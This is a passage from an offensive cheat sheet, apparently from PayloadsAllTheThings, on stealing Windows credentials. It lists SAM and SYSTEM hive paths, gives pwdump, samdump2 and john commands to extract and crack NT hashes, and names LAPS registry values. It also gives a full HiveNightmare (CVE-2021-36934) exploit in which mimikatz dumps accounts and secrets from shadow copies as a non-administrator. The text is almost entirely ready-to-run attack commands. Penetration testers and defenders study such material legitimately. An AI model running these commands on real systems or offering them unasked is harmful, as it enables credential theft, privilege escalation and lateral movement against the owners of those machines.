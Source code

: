 ```powershell
# Usually %SYSTEMROOT% = C:\Windows
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```

Generate a hash file for John using `pwdump` or `samdump2`.

```powershell
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Either crack it with `john -format=NT /root/sam.txt`, [hashcat](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md#hashcat) or use Pass-The-Hash.

### LAPS Settings

Extract `HKLM\Software\Policies\Microsoft Services\AdmPwd` from Windows Registry.

* LAPS Enabled: AdmPwdEnabled
* LAPS Admin Account Name: AdminAccountName
* LAPS Password Complexity: PasswordComplexity
* LAPS Password Length: PasswordLength
* LAPS Expiration Protection Enabled: PwdExpirationProtectionEnabled

### HiveNightmare

> CVE-2021–36934 allows you to retrieve all registry hives (SAM,SECURITY,SYSTEM) in Windows 10 and 11 as a non-administrator user

Check for the vulnerability using `icacls`

```powershell
C:\Windows\System32> icacls config\SAM
config\SAM BUILTIN\Administrators:(I)(F)
           NT AUTHORITY\SYSTEM:(I)(F)
           BUILTIN\Users:(I)(RX)    <-- this is wrong - regular users should not have read access!
```

Then exploit the CVE by requesting the shadowcopies on the filesystem and reading the hives from it.

```powershell
mimikatz> token::whoami /full

# List shadow copies available
mimikatz> misc::shadowcopies

# Extract account from SAM databases
mimikatz> lsadump::sam /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /sam:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM

# Extract secrets from SECURITY
mimikatz> lsadump::secrets /system:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM /security:\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SECURITY
```
